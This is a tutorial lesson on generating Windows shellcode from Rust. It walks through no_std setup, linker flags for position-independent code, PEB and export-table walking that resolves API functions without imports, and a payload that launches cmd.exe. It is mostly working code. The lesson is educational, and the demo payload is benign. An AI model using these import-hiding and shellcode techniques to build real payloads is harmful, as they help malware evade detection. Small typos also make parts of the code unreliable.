

We're going to take a look at shellcode generation by programming the code ourselves in Rust. This will give us greater flexibility than if we were to use shellcodes pre-made by "msfvenom", for example.
Here we're going to use a technique published by b1tg which consists of two projects, one for compiling a binary and the other for parsing the binary, extracting the ".text" section which contains the code, then patching the first instructions to force the shellcode to jump directly to the beginning of our code, which is filled in the headers of the PE file.
Here's the structure of our source code:
.
├── Cargo.lock
├── Cargo.toml
├── shellcode
│ ├── .cargo
│ └── config.toml
│ ├── Cargo.lock
│ ├── Cargo.toml
│ └── src
│ ├── binds.rs
│ └── main.rs
└── src
└── main.rs
The code that generates the shellcode from the binary is located in "src/main.rs", but we won't look at its contents, but you'll find it in the course source files. But how it works is easy to summarize: it will read the "shellcode.exe" file generated in the neighboring "shellcode" folder, then it will read the "entry point" field in the headers of the PE (Portable Executable) file containing the address where our code starts, then it will modify the first instructions of the ".text" section containing all our code, to insert a "jmp" instruction with the value of our entry point.
Instead, we'll look at the "shellcode" folder, which contains the code to generate a valid shellcode, starting with the "shellcode/.cargo/config.toml" file:
# shellcode/.cargo/config.toml
[build]
target = "x86_64-pc-windows-msvc"
rustflags = [
"-Z", "pre-link-arg=/NODEFAULTLIB",
"--emit", "asm",
"-C", "link-arg=/ENTRY:main",
"-C", "link-arg=/MERGE:.edata=.rdata",
"-C", "link-arg=/MERGE:.rustc=.data",
"-C", "link-arg=/MERGE:.rdata=.text",
"-C", "link-arg=/MERGE:.pdata=.text",
"-C", "link-arg=/DEBUG:NONE",
"-C", "link-arg=/EMITPOGOPHASEINFO",
"-C", "target-feature=-mmx,-sse,+soft-float"
]
This is where we make a number of arrangements to turn the section into a functional shellcode, mainly by adding the "rdata" and "pdata" sections to the ".text" section so that all the code is independent (known as PIC for Position Independent Code). The other configurations are specifically designed to remove unnecessary data from the code.
Next, concerning the source code, the "shellcode/src/binds.rs" file contains all the data structures used to interact with the Windows API.
We'll now analyze the contents of our program.
To call the Windows API, we're going to use a technique that could also be used to obfuscate function calls, namely to take advantage of the PEB (for Process Environment Block) that we can retrieve independently from memory.
The PEB is a data structure containing a whole range of information about the running process, including executable base addresses, process parameters, environment variables and more.
What interests us in this part of the course is one of the PEB fields called "Ldr", which lists the dynamic library instances loaded into memory by the process.
In our example, our shellcode will simply execute a shell by creating a new process with the "cmd.exe" program.
A Rust program without a library consists of removing all the code contained in the "std" library, and replacing it with the "core" library, which makes no assumptions about the system it's compiling on.
As a result, we lose a large part of the code in our binary, since we lose all abstractions to the operating system. We also lose access to many external libraries that depend on the stand library.
To instruct Cargo that we want to program without the standard library, we need to add these lines of code to our program:
# shellcode/src/main.rs
#![feature(lang_items)]
#![no_main]
#![no_std]
#[panic_handler]
fn panic(_panic: &PanicInfo<'_>) -> ! {
loop {}
}
#[lang = "eh_personality"]
#[no_mangle]
external "C" fn eh_personality() {}
#[export_name = "_fltused"]
static _FLTUSED: i32 = 0;
#[no_mangle]
extern "C" fn main() {
...
}
The global macro "#![no_std]" tells Cargo to use the "core" library instead of "std".
The macro "#![no_main]" tells Cargo not to use the "main" function as an entry point for the program, something that was only possible with the standard library.
Next, we'll have to define our own "panic_handler", which defines the behavior when the program panics. In our case, we don't want it to do anything, so we'll let it run in a loop.
Then we need to define the "eh_personality" function, which is executed when our program panics - in our case, we just want it to stop right away.
The "_fltused" symbol is requested by the Windows MSVC compiler when we use float values, normally handled by the standard library.
Finally, we need to define our program's entry point, which is a Windows-specific prototype.
To retrieve the PEB address in a completely autonomous way, we use this function :
# shellcode/src/main.rs
...
let peb: *mut PEB;
asm!(
"mov {}, gs:[0x60]",
out(reg) peb,
);
...
The assembler instruction will retrieve the value in the "gs" segment register at offset 0x60 and store it in our "offset" variable. This value contains the address of the PEB. The reason we can retrieve it like this is that the PEB is located in another data structure called TEB (for Thread Environment Block), which is stored in the "gs" segment register at offset 0x30.
To access PEB values, we'll cast the "peb" variable into a PEB pointer (structure defined in the "binds.rs" file).
The following code will be used to retrieve a HANDLE to an instance of a module loaded in memory from its UTF-16 encoded name (which amounts to redeveloping the Windows API GetModuleHandleW function):
# shellcode/src/main.rs
fn get_module_by_name(module_name: *const u16) -> PVOID {
let peb: *mut PEB;
unsafe {
asm!(
"mov {}, gs:[0x60]",
out(reg) peb,
);
let ldr = (*peb).Ldr;
let list_entry = &((*ldr).InLoadOrderModuleList);
let mut cur_module: *const LDR_DATA_TABLE_ENTRY = (&list_entry as *const _) as *const _;
loop {
let cur_name = (*cur_module).BaseDllName.Buffer;
if !cur_name.is_null() {
if compare_raw_str(module_name, cur_name) {
return (*cur_module).BaseAddress;
}
}
let flink = (*cur_module).InLoadOrderModuleList.Flink;
cur_module = flink as *const LDR_DATA_TABLE_ENTRY;
}
}
}
Here, we'll analyze the contents of the "Ldr" contained in the PEB, then iterate over all the modules loaded in memory, each time comparing the name of the module with our input to see if it's the one we're looking for.
When it's found, we return the address of its instance in memory.
We're now going to develop the function that will enable us to retrieve a function's pointer from its symbol name (which amounts to redeveloping the GetProcAddress function of the Windows API):
# shellcode/src/main.rs
fn get_func_by_name(module: PVOID, func_name: *const u8) -> PVOID {
let idh: *const IMAGE_DOS_HEADER = module as *const _;
unsafe {
if (*idh).e_magic != IMAGE_DOS_SIGNATURE {
return ptr::null_mut();
}
let e_lfanew = (*idh).e_lfanew;
let nt_headers: *const IMAGE_NT_HEADERS =
(module as *const u8).offset(e_lfanew as isize) as *const _;
let op_header = &(*nt_headers).OptionalHeader;
let virtual_addr = (&op_header.DataDirectory[0]).VirtualAddress;
let export_dir: *const IMAGE_EXPORT_DIRECTORY =
(module as *const u8).offset(virtual_addr as _) as _;
let number_of_names = (*export_dir).NumberOfNames;
let addr_of_funcs = (*export_dir).AddressOfFunctions;
let addr_of_names = (*export_dir).AddressOfNames;
let addr_of_ords = (*export_dir).AddressOfNameOrdinals;
for i in 0..number_of_names {
let name_rva_p: *const DWORD =
(module as *const u8).offset((addr_of_names + i * 4) as isize) as *const _;
let name_index_p: *const WORD =
(module as *const u8).offset((addr_of_ords + i * 2) as isize) as *const _;
let name_index = name_index_p.as_ref().unwrap();
let mut off: u32 = (4 * name_index) as u32;
off = off + addr_of_funcs;
let func_rva: *const DWORD = (module as *const u8).offset(off as _) as *const _;
let name_rva = name_rva_p.as_ref().unwrap();
let curr_name = (module as *const u8).offset(*name_rva as isize);
if *curr_name == 0 {
continue;
}
if compare_raw_str(func_name, curr_name) {
let res = (module as *const u8).offset(*func_rva as isize);
return res as _;
}
}
}
return ptr::null_mut();
}
Here, we have to parse the PE format module in memory, with the aim of iterating over the EXPORT_DIRECTORY, which contains the list of functions exposed by the dynamic library.
For each function, we compare its name with the input function, and when we find the name of the function we're looking for, we return its function pointer.
From the functions developed above we have everything we need to freely call any Windows API function without the need for any Rust dependencies:
# src/main.rs
pub type CreateProcessA = extern "system" fn(
PCSTR,
PSTR,
*const (),
*const (),
i32,
u32,
*const (),
PCSTR,
*const STARTUPINFOA,
*mut PROCESS_INFORMATION,
);
pub type WaitForSingleObject = extern "system" fn (HANDLE, i32);
#[no_mangle]
pub extern "C" fn main() {
let KERNEL32_STR: [u16; 13] = [75, 69, 82, 78, 69, 76, 51, 50, 46, 68, 76, 76, 0];
let kernel32_handle = get_module_by_name(KERNEL32_STR.as_ptr());
let create_process_a = get_func_by_name(kernel32_handle, "CreateProcessA\0".as_ptr());
let create_process_a: CreateProcessA = unsafe { core::mem::transmute(create_process_a) };
let wait_for_single_object = get_func_by_name(kernel32_handle, "WaitForSingleObject\0".as_ptr());
let wait_for_single_object: WaitForSingleObject = unsafe { core::mem::transmute(wait_for_single_object) };
let mut cmdline = *b "cmd.exe\0";
let startup_info = STARTUPINFOA{
cb: 0,
lpReserved: ptr::null_mut(),
lpDesktop: ptr::null_mut(),
lpTitle: ptr::null_mut(),
dwX: 0,
dwY: 0,
dwXSize: 0,
dwYSize: 0,
dwXCountChars: 0,
dwYCountChars: 0,
dwFillAttribute: 0,
dwFlags: 0,
wShowWindow: 0,
cbReserved2: 0,
lpReserved2: ptr::null_mut(),
hStdInput: ptr::null_mut(),
hStdOutput: ptr::null_mut(),
hStdError: ptr::null_mut()
};
let mut process_info = PROCESS_INFORMATION{
hProcess: ptr::null_mut(),
hThread: ptr::null_mut(),
dwProcessId: 0,
dwThreadId: 0
};
create_process_a(
ptr::null(),
cmdline.as_mut_ptr(),
ptr::null_mut(),
ptr::null_mut(),
0,
0,
ptr::null_mut(),
ptr::null(),
&startup_info,
&mut process_info
);
wait_for_single_object(process_info.hProcess, -1);
loop {}
}
We start by writing the prototypes of the functions we want to use, CreateProcessA to create a process and WaitForSingleObject to wait for the process.
Then we define our UTF-16 string to retrieve the address of the "KERNEL32.dll" module.
From the module loaded in memory, we'll retrieve our two function pointers, which we'll cast using the prototypes defined earlier.
We'll then prepare the call to the CreateProcessA function by instantiating the STARTUPINFOA data structure, which allows us to configure the created process, and the PROCESS_INFORMATION data structure, which will contain the pointers to our process.
We can then import and call our Windows API functions as if we'd imported them normally.
To compile our shellcode, all we need to do is run the "cargo build --release" command in the "shellcode" directory, then "cargo run" in the project root.
After that, we can find our raw shellcode in the following location: "shellcode\target\x86_64-pc-windows-msvc\release\shellcode.bin".
Then you're free to use your favorite shellcode loader, like the one developed in the previous lesson:

So now you know how to call the Windows API in a completely dynamic and dependency-free way, and generate shellcode from Rust code.
This is a relatively simple implementation, so when you use it to develop more elaborate shellcode, remember to use only libraries that are not dependent on the standard Rust library.